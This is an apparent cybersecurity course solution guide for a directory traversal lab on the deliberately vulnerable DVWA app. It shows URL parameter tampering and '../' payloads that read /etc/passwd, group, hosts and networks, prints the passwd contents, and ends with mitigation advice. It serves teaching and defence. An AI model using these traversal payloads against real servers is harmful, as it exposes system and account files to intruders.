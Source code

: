 ## Solution Guide: Directory Traversal 

In this activity, you were tasked with testing the intended purpose of an application to view back-end files from the web application's server. You were then tasked with manipulating the URL with the dot-slash technique to view confidential and hidden files on the web application server.

---

1. Test the intended use of the web application.

    - View the contents of `file1.php`.
      
      - Select the link to `file1.php`, and note the following:
      
          - The URL changes to <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.
          
          - Note that the parameter references the file that was selected: `?page=file1.php`.
        
          - The content on the webpage was displayed:
      
              `Hello admin
              Your IP address is: 192.168.13.1`
          
      - Select the other links (`file2.php` and `file3.php`) and note their URL and webpage changes.
      
      - Note that the intended purpose of this application is to provide a user access to those three files only. 

2. On Vagrant, open the terminal. 

      - Connect to the container of the Replicants webpage:

        - `docker exec -it dvwa bash`
      
      - Once you have connected to the container, run the following command to access the directory where `file1.php`, `file2.php`, and `file3.php` are located:

        - `cd /var/www/html/vulnerabilities/fi`

      - View the files in this directory using the `ls` command.

        - Note that you should see the files `file1.php`, `file2.php`, and `file3.php`.

      - View the contents at the top of `file2.php`:
        
        -  `head file2.php`
      
        - Note how this file contains HTML that matches what you saw on the Replicants website when you clicked on `file2.php`:
          
          - `<em>I needed a password eight characters long so I picked Snow White and the Seven Dwarves.</em>\" ~ Nick Helm<br /><br />`

        - Take note of the other `file<#>.php` file located in this directory. 

    - **Solution**: The other `file<#>.php` file located in this directory is `file4.php`.
 
3. Test the unintended consequences of this application.
 
    - We saw another `file<#>.php` file in that directory. That file does not have a link to access on Replicant's webpage. Try to access it by modifying the parameter of the URL.

      - **Solution**: To view `file4.php`, change the URL to <http://192.168.13.25/vulnerabilities/fi/?page=file4.php>.

      - The parameter changed to `?page=file4.php`.
        
      - The webpage will display the following message:
          
            File 4 (Hidden)
            Good job!
            This file isn't listed at all on DVWA. If you are reading this, you did something right ;-)
          
4. Traverse through other paths. 

    - In Part 3, you modified the parameter of the URL to view a hidden file. Try to access the `passwd` file by modifying the parameter of the URL again.

    - **Solution**: To view the `passwd` file, you need to use the dot-slash method.
      
      - First we need to determine how many directories back the top of the directory structure is. Because the files are located in `/var/www/html/vulnerabilities/fi#`, they are five files deep.

        - To go back five directories, we use the dot-slash method five times. Then we go forward to access the `/etc/passwd` file:

          - `../../../../../etc/passwd`

        - The complete URL will look like the following, when we place the payload as the parameter: <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/passwd>.

      - This will display the `/etc/passwd` file at the top of the page:

          ```
            root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin       sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
        ```

      - Note that if we don't know how many directories back to go, we keep testing payloads until we see the `passwd` file. For example: 

        -  `../etc/passwd`

        -  `../../etc/passwd`

        - `../../../etc/passwd`

        - `../../../../etc/passwd`

5. **Bonus**: Previously, you were modified the URL to view the file `passwd`. Try to access other files (such as the hosts, group, or networks) using the same techniques.

    - If you can access the files, research online and document what data those files contain.

    - **Solution**: To view the files for hosts, group, or networks, you need to use the same dot-slash method.

      - The URLs for each of these are as follows:

        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/group>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/networks>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/hosts>
        
      - These files contain the following information:

        - `group`: Contains all the groups and members for that linux server.

        - `networks`: Translates IP addresses to network names.
        
        - `hosts`: Maps host names to IP addresses.
      
6. Answer the following mitigation strategy questions: 

    - Describe to your management how a malicious user could take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

        - Impacts could include:

          - Display of confidential data such as user information, system accounts, services being ran, networking information (IP Addresses).

          - All of the confidential information could be used to apply other types of attacks.

    - Describe how you would mitigate the vulnerabilities you just exploited.

      - Mitigation options can include:

        - Server-side validation that does not allow selection of unintended files.

        - Segregation of confidential files from the web server and accessible directories.

        - Permissions to restrict web server account accessibility.
        
      - Refer to the following page for a more comprehensive list of directory traversal mitigations: 

        - [Hacksplaining: Preventing Directory Traversal](https://www.hacksplaining.com/prevention/directory-traversal)    

  
___

© 2021 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved. 
